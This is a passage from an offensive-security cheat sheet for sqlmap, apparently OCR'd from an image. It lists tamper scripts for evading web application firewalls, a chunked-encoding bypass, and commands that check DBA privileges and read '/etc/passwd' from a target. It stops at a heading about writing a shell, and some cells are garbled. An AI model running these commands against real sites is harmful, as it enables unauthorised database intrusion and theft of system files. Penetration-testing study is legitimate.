 | `modsecurityzeroversioned` | Embraces complete query with (MySQL) zero-versioned comment |
| `percentage` | Adds a percentage sign (`%`) in front of each character (e.g. SELECT -> %S%E%L%E%C%T) |
| `plus2concat` | Replaces plus operator (`+`) with (MsSQL) function CONCAT() counterpart |
| `randomcase` | Replaces each keyword character with random case value (e.g. SELECT -> SEleCt) |
| `space2comment` | Replaces space character ( ``) with comments `/ |
| `space2dash` | Replaces space character ( ``) with a dash comment (`--`) followed by a random string and a new line (`\n`) |
| `space2hash` | Replaces (MySQL) instances of space character ( ``) with a pound character (`#`) followed by a random string  and a new line (`\n`) |
| `space2mssqlblank` | Replaces (MsSQL) instances of space character ( ``) with a random blank character from a valid set of alternate characters |
| `space2plus` | Replaces space character ( ``) with plus (`+`) |
| `space2randomblank` | Replaces space character ( ``) with a random blank character from a valid set of alternate characters |
| `symboliclogical` | Replaces AND and OR logical operators with their symbolic counterparts (`&&` and `||`) |
| `versionedkeywords` | Encloses each non-function keyword with (MySQL) versioned comment |
| `versionedmorekeywords` | Encloses each keyword with (MySQL) versioned comment |

## **Miscellaneous Bypasses**

```
--chunked
```

# **OS Exploitation**

## **File Read**

### **Checking for DBA Privileges**

```
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

DBA privileges must be set to True to Read/Write Permissions in modern DBMS

### **Reading Local Files**

```
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

## File Write

### Writing a basic shell in a file
